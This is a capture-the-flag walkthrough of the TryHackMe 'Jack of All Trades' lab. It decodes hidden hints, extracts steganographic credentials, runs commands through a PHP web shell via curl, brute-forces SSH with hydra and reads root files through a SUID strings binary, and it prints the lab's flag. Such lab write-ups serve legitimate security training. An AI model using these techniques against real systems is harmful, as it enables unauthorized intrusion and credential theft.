


# TryHackMe-Jack of All Trades

**Scope:**

- Remote Code Execution (RCE)
- Steganography

**Keywords:**

- HTTP Port Check & Port Network Configuration
- Decoding with Logic
- Steganography
- Caesar Cipher
- SSH Login & Brute Force
- SCP File Transfer
- strings Binary

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `echo 'UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==' | base64 -d`
- `echo "GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=" | base32 --decode`
- `echo '45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246' | xxd -p -r`
- `steghide extract -sf stego.jpg`
- `steghide extract -sf header.jpg`
- `curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list'`
- `hydra -l jack -P passwords -V -f -e ns -s 80 ssh://jack.thm`
- `ssh jack@jack.thm -p 80`
- `scp -P 80 jack@jack.thm:user.jpg .`

**System Commands:**

- `find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null`

### Laboratory Environment

[Jack-of-All-Trades](https://tryhackme.com/r/room/jackofalltrades)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```powershell
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13b7f0a114e2d32540ff4b9460c5003d (DSA)
|   2048 910cd643d940c388b1be350bbcb99088 (RSA)
|   256 a3fb09fb5080718f931f8d43971edcab (ECDSA)
|_  256 6521e74e7c5ae7bcc6ff68caf1cb75e3 (ED25519)
MAC Address: 02:5E:94:A3:D3:0D (Unknown)
```

> **HTTP Port Check & Configuration Phase**
> 




**LOCATION:**

```powershell
about:config
```


**LOCATION:**

```powershell
network.security.ports.banned.override
```


`curl -iLX GET -D response.txt http://jack.thm:22`

```powershell
HTTP/1.1 200 OK
Date: Wed, 01 Jan 2025 11:41:18 GMT
Server: Apache/2.4.10 (Debian)
Last-Modified: Sat, 29 Feb 2020 20:25:18 GMT
ETag: "645-59fbcc0a10780"
Accept-Ranges: bytes
Content-Length: 1605
Vary: Accept-Encoding
Content-Type: text/html

<html>
        <head>
                <title>Jack-of-all-trades!</title>
                <link href="assets/style.css" rel=stylesheet type=text/css>
        </head>
        <body>
                
                <h1>Welcome to Jack-of-all-trades!</h1>
                <main>
                        <p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p>
                        <p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p>
                        <p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
                        <p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
                        
                        <p>I make a lot of models myself, but I also do toys, like this one:</p>
                        
                        <!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
                        <!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
                        <p>I hope you choose to employ me. I love making new friends!</p>
                        <p>Hope to see you soon!</p>
                        <p id="signature">Jack</p>
                </main>
        </body>
</html>

```


> **Internal Logic Discovery Phase**
> 

`echo 'UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==' | base64 -d`

```powershell
Remember to wish Johny Graves well with his crypto jobhunting!
His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```



`curl -iLX GET -D response.txt http://jack.thm:22/recovery.php`

```powershell
HTTP/1.1 200 OK
Date: Wed, 01 Jan 2025 11:46:06 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=3bk83uhsrsdpc73c9bth3ufj03; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 943
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
        <head>
                <title>Recovery Page</title>
                <style>
                        body{
                                text-align: center;
                        }
                </style>
        </head>
        <body>
                <h1>Hello Jack! Did you forget your machine password again?..</h1>
                <form action="/recovery.php" method="POST">
                        <label>Username:</label><br>
                        <input name="user" type="text"><br>
                        <label>Password:</label><br>
                        <input name="pass" type="password"><br>
                        <input type="submit" value="Submit">
                </form>
                <!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
                 
        </body>
</html>

```

> **Decoding Phase**
> 

`echo "GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=" | base32 --decode`

```powershell
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

`echo '45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246' | xxd -p -r`

```powershell
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```


**OUTPUT:**

```powershell
Remember that the credentials to the recovery login are hidden on the homepage!
I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

**For online source:**

[Caesar Cipher](https://www.dcode.fr/caesar-cipher)


> **Steganography Phase**
> 

`wget http://jack.thm:22/assets/stego.jpg`

```powershell
stego.jpg                  100%[========================================>]  37.12K  --.-KB/s    in 0s      

2025-01-01 11:54:37 (304 MB/s) - ‘stego.jpg’ saved [38015/38015]

```


`steghide extract -sf stego.jpg`

```powershell
Enter passphrase: u?WtKSraq
wrote extracted data to "creds.txt"
```

`cat creds.txt`

```powershell
Hehe. Gotcha!

You're on the right path, but wrong image!
```

`wget http://jack.thm:22/assets/header.jpg`

```powershell
header.jpg                 100%[========================================>]  68.63K  --.-KB/s    in 0s      

2025-01-01 12:02:59 (220 MB/s) - ‘header.jpg’ saved [70273/70273]
```

`steghide extract -sf header.jpg`

```powershell
Enter passphrase: u?WtKSraq
wrote extracted data to "cms.creds".
```

`cat cms.creds`

```powershell
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

> **Remote Code Execution (RCE) Phase**
> 


`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=id'`

```powershell
GET me a 'cmd' and I'll run it for you Future-Jack.
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=ls%20-lsa'`

```powershell
GET me a 'cmd' and I'll run it for you Future-Jack.
total 12
4 drwxr-xr-x 2 root root 4096 Feb 28  2020 .
4 drwxr-xr-x 4 root root 4096 Mar  1  2020 ..
4 -rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
4 -rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
```

`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=ls%20-lsa%20/home'`

```powershell
GET me a 'cmd' and I'll run it for you Future-Jack.
total 16
4 drwxr-xr-x  3 root root 4096 Feb 29  2020 .
4 drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
4 drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
4 -rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
4 -rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list 
```

`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list'`

```powershell
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
ow5APF>6r,y4krSo
```

> **SSH Login & Brute Force Phase**
> 

`nano passwords`

```powershell
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
ow5APF>6r,y4krSo
```

`hydra -l jack -P passwords -V -f -e ns -s 80 ssh://jack.thm`

```powershell
[80][ssh] host: jack.thm   login: jack   password: ITMJpGGIqg1jn?>@
```

`ssh jack@jack.thm -p 80`

```powershell
jack@jack.thm's password: ITMJpGGIqg1jn?>@

jack@jack-of-all-trades:~$ whoami
jack
jack@jack-of-all-trades:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth),1001(dev)
jack@jack-of-all-trades:~$ pwd
/home/jack

jack@jack-of-all-trades:~$ groups
jack cdrom floppy audio dip video plugdev netdev bluetooth dev

jack@jack-of-all-trades:~$ getent group dev
dev:x:1001:root,jack

jack@jack-of-all-trades:~$ uname -a
Linux jack-of-all-trades 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt9-2 (2015-04-13) x86_64 GNU/Linux
jack@jack-of-all-trades:~$ dpkg --version
Debian `dpkg' package management program version 1.17.25 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

jack@jack-of-all-trades:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:jack,,,:/home/jack:/bin/bash

jack@jack-of-all-trades:~$ ls -lsa
total 312
  4 drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
  4 drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
  0 lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
  4 -rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
  4 -rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
  4 drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
  4 -rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
288 -rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg

jack@jack-of-all-trades:~$ 
```

> **SCP File Transfer & Logic Discovery Phase**
> 

`scp -P 80 jack@jack.thm:user.jpg .`

```powershell
jack@jack.thm's password: ITMJpGGIqg1jn?>@
user.jpg             100%  286KB  41.5MB/s   00:00
```


> **Privilege Escalation with Internal Logic**
> 

```powershell
jack@jack-of-all-trades:~$ find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
-rwsr-xr-x 1 root root 464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10248 Apr 15  2015 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 44464 Nov 20  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 53616 Nov 20  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 39912 Nov 20  2014 /usr/bin/newgrp
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
-rwsr-xr-x 1 root root 149568 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 54192 Nov 20  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 75376 Nov 20  2014 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 89248 Feb 11  2015 /usr/bin/procmail
-rwsr-xr-x 1 root root 3124160 Feb 17  2015 /usr/sbin/exim4
-rwsr-xr-x 1 root root 40000 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root 27416 Mar 29  2015 /bin/umount
-rwsr-xr-x 1 root root 40168 Nov 20  2014 /bin/su

jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

jack@jack-of-all-trades:~$ 
```